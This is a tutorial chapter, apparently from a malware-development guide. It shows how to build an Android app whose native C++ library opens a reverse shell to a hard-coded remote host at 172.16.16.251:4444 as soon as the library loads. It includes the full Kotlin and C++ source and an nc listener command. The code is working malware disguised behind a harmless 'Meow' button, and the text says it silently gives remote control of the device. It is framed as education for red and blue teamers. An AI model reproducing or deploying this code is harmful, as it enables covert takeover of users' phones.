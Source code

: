 \newpage
\subsection{7. mobile malware development trick. Reverse shell. Simple Android (C/C++) example.}

﷽

![malware](./images/124/2024-06-17_14-44.png){width="80%"}      

We all know that `msfvenom` has a module that can add a reverse shell payload to an `apk` that has been built. But how could this be done programmatically? To take a little look under the hood of this logic?     

I will not write about installing your working environment, you can just follow the instructions from the [official Android Studio page](https://developer.android.com/studio), everything is described very well there.      

### practical example

We'll walk through how to create a reverse shell for an Android app that communicates with a remote host.      

Your project looks like there (`HackRev`):     

![malware](./images/7/2025-05-17_11-19.png){width="80%"}       

As you can see, we'll be combining both `Java` for the Android app interface and `C/C++` for the reverse shell logic. This tutorial will help you understand how to combine Android development with native code for penetration testing purposes. Let's break this down and look at the code in detail.      

Let's start by looking at the Android app part. We'll create a simple button that triggers a Toast message and also loads a native library that contains the reverse shell functionality:     

```kotlin
package com.example.hackrev

import android.os.Bundle
import androidx.activity.ComponentActivity
import android.widget.Button
import android.widget.Toast

class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        // initialize the button that will trigger the reverse shell
        meowButton = findViewById(R.id.meowButton)
        
        // setting up a click listener for the button to display a Toast message
        meowButton.setOnClickListener {
            Toast.makeText(
                applicationContext,
                "Meow! ♥\uFE0F I Love Bahrain \uD83C\uDDE7\uD83C\uDDED",
                Toast.LENGTH_SHORT
            ).show()
        }

        // load the native library containing the reverse shell logic
        System.loadLibrary("reverse-shell")
    }
}
```

The `MainActivity` contains a button that, when clicked, shows a simple Toast message.     

We then load a native library called reverse-shell using `System.loadLibrary()`. This library contains our `C/C++` reverse shell code.      

### C/C++ reverse shell

Now, let's dive into the `C/C++` code that's used to create the reverse shell. This code is responsible for establishing a connection to the remote host and redirecting the input/output streams to the socket:     

```cpp
#include <cstdio>
#include <cstdlib>
#include <unistd.h>

#include <sys/socket.h>
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/types.h>

// remote host to "send" shell
#define REMOTE_HOST "172.16.16.251"
#define REMOTE_PORT 4444

// use "__attribute__" to call "reverse_shell" when the library is loaded
void __attribute__ ((constructor)) reverse_shell() {
    // create child process with fork
    if (fork() == 0) {
        int rsSocket;
        struct sockaddr_in socketAddr{};

        // configure socket address
        socketAddr.sin_family = AF_INET;
        socketAddr.sin_addr.s_addr = inet_addr(REMOTE_HOST);
        socketAddr.sin_port = htons(REMOTE_PORT);

        // create socket connection
        rsSocket = socket(AF_INET, SOCK_STREAM, 0);
        connect(rsSocket, (struct sockaddr *)&socketAddr, sizeof(socketAddr));

        // redirect stdin, stdout, and stderr to the socket
        dup2(rsSocket, 0); // stdin
        dup2(rsSocket, 1); // stdout
        dup2(rsSocket, 2); // stderr

        // execute a shell
        execve("/system/bin/sh", nullptr, nullptr);
    }
}
```

As you can see, code similar like reverse shell for linux:     

`reverse_shell()` is marked with the `constructor` attribute. This ensures that this function is called automatically when the native library is loaded into memory.       

`fork()` creates a new process that will run the reverse shell logic.       

The socket connection is established using the remote host IP and port defined in the code, in my case IP `172.16.16.251`:       

![malware](./images/7/2025-05-17_11-43.png){width="80%"}       

`dup2()` is used to redirect the standard input, output, and error streams (`stdin, stdout, stderr`) to the socket. This essentially connects the shell's I/O to the remote connection.      

`execve()` launches a new shell (`/system/bin/sh`) on the Android device and connects it to the remote host through the socket.       

When the Android app is opened, it will load this native library. Upon clicking the button, the reverse shell logic will be executed, creating a remote shell connection on the target device.     

### demo

On the attacker's machine, as usually use netcat or any other tool to listen for the incoming connection:    

```bash
nc -nlvp 4444
```

this will listen on port 4444 for incoming connections from the Android device:    

![malware](./images/7/2025-05-17_11-44.png){width="80%"}       

After installing the app on the target device, click the button to trigger the reverse shell:     

![malware](./images/7/2025-05-17_11-47.png){width="80%"}       

![malware](./images/7/2025-05-17_11-52-54.jpg){height="30%"}     

![malware](./images/7/2025-05-17_11-53-23.jpg){height="30%"}     

![malware](./images/7/2025-05-17_11-52-55.jpg){height="30%"}     

![malware](./images/7/2025-05-17_11-52.png){width="30%"}     

If everything is set up correctly, the attacker's Netcat listener will receive the shell from the Android device.     

In this tutorial, we've walked through how to build a simple reverse shell that works on an Android device. By combining Java for the frontend interface and C++ for the reverse shell functionality, we created an app that listens for user input to trigger a remote shell.      

But there is a caveat:    

![malware](./images/7/2025-05-17_12-03.png){width="80%"}       

You do not have any permissions, since the user is only the one provided to you and he does not have rights to work with the file system. What reverse shell works in this case? can it be written in kotlin?     

When you do not have rights to work with the file system (for example, when restricting user rights on Android), you will not be able to use standard methods such as execve() to run external programs or access system files, since they require special permissions.    

However, you can use simpler and more legal ways to create a reverse shell that bypasses restrictions and works within the sandbox. One such method is to use sockets to establish a communication channel with a remote server, without having to write to disk.   

This example highlights how an Android app can be used to silently execute malicious code, opening the door to remote control over the device. Understanding these techniques is critical for both penetration testers and security researchers to help secure Android applications against such exploits.    

Keep in mind that this method is a basic demonstration for educational purposes, and ethical hacking practices should always be followed when testing security.    

I hope this section with practical example is useful for entry level malware researchers, red teamers, spreads awareness to the blue teamers of this simple example.    

[Android Studio](https://developer.android.com/studio)     
[Linux reverse shell](https://github.com/cocomelonc/meow/tree/master/2021-09-11-reverse-shells)     